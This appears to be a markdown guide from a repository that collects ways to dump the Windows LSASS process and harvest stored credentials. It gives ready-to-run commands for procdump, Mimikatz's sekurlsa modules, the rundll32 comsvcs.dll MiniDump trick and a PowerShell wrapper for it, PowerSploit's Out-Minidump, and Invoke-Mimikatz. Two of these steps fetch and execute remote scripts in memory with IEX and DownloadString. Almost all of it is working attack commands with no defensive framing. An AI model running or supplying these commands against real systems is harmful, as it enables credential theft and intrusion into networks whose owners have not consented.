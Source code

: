 # Methods to Dump LSASS
Craft a comprehensive guide detailing various methods for dumping the LSASS.<br>
I think This will be a valuable one and will make people stay updated on new techniques.
## 1. Procdump:
Procdump is a part of Microsoft Sysinternals and a command-line<br>utility programs for producing dumps of any running process<br>
We can leverage it and use it fo DUMP lsass process by the following:<br>
<code>procdump.exe -ma lsass.exe C:\path\lsass.dmp</code>

## 2. Mimikatz:
Mimikatz can both dump the LSASS process and read from an LSASS dump:<br>
<code>privilege::debug = Debugging Mode
sekurlsa::logonPasswords = Dump passwords
</code>

* To Read from an LSASS dump:<br>
<code>sekurlsa::minidump C:\path\lsass.dmp
sekurlsa::logonpasswords</code>

## 3. Rundll32
This is a native Windows utility method which can we can use:<br>
<code>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_Process_ID> C:\path</code><br>
for getting lsass process ID, you can RUN "Get-Process lsass" on powershell.
* User can also done this by making a PS script containing the following:<br>
<code>
$lsass = Get-Process lsass
$dumpPath = "C:\Users\Adwin2\Desktop\lsass.dmp"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $dumpPath full
</code>
Note: Change $dumpPath.
## 4. PowerSploit's Out-Minidump:
Ensure the Out-Minidump function is loaded in your PowerShell session<br>
<code>"IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1')"
Get-Process lsass | Out-Minidump -DumpFilePath C:\Path\To\Dump
</code>

##  5. Using Invoke-Mimikatz from the GitHub Repository:
Download & Import the Script:
First, you need to get the Invoke-Mimikatz.ps1 script from the GitHub repository.
If you're working directly on the machine:
<code>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/g4uss47/InvokeMimikatz/master/Invoke-Mimikatz.ps1')</code><br>

Invoke Mimikatz to Dump LSASS:<br>
Once the module is imported, you can run Invoke-Mimikatz to dump the LSASS</br>

<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'</code><br>
* You can also using minidump module to select where to read:<br>
<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::minidump C:\Path\To\Load\Lsass"'</code>
